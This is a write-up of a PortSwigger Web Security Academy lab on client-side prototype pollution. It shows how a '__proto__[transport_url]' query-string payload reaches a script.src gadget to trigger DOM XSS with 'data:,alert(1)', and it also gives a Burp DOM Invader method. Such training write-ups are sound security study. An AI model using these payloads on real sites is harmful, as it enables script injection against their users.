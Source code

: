 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/client-side-prototype-pollution/lab-1/"}
---
```



---

## Objective: Get DOM XSS

### Manual method

![Pasted image 20250329183244.png](/img/user/Images/Pasted%20image%2020250329183244.png)

First, we need to find a source. We can test the search function with `__prototype__` and try to inject a property, `foo` in the query string

```
/?__proto__[foo]=bar
```

We can verify it worked by opening the browser console and enter `Object.prototype.foo` and look at the return value:

if `bar` returns, we have a prototype pollution source

![Pasted image 20250329224758.png](/img/user/Images/Pasted%20image%2020250329224758.png)

Next we need a gadget, we look at sources tab and look at potential DOM XSS sinks

```javascript
async function searchLogger() {

	// The config object is created, but transport_url is NOT explicitly defined
    let config = {params: deparam(new URL(location).searchParams.toString())};

	// The Gadget
    if(config.transport_url) {
        let script = document.createElement('script');
	    
	    // The Sink, loads a script from user-controlled input
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```


So basically what is happening is when the property `transport_url` is not **explictly** defined, Javascript looks up the prototype of the object and tries to use `Object.prototype` but we already polluted that earlier with `__proto__[foo]=bar`.

We test the gadget with a random value

```
/?__proto__[transport_url] = foo
```

![Pasted image 20250329233224.png](/img/user/Images/Pasted%20image%2020250329233224.png)

Now look at the **Elements** tab and we notice that the `script` elements has been loaded with the `src` attribute `foo`

![Pasted image 20250329233324.png](/img/user/Images/Pasted%20image%2020250329233324.png)

Now we can simply craft an exploit to call `alert` using `data:`

```
/?__proto__[transport_url] = data:,alert(1);
```

![Pasted image 20250329233851.png](/img/user/Images/Pasted%20image%2020250329233851.png)

### Automatic method

We will be using Burpsuite's DOM Invader which is built-in Burpsuite's browser. Enable that and the Prototype Pollution option 

![Pasted image 20250330013725.png](/img/user/Images/Pasted%20image%2020250330013725.png)

![Pasted image 20250330013828.png](/img/user/Images/Pasted%20image%2020250330013828.png)

Now, get to reload the page and check DevTools **DOM Invader** tab

![Pasted image 20250330014131.png](/img/user/Images/Pasted%20image%2020250330014131.png)

We have 2 Sources available here, focus on `__proto__` and click the scan for gadgets

![Pasted image 20250330014319.png](/img/user/Images/Pasted%20image%2020250330014319.png)

In the new tab's DevTools, the scan detected the gadget with the available sink. Clicking the Exploit button will automatically give us an alert

![Pasted image 20250330014458.png](/img/user/Images/Pasted%20image%2020250330014458.png)
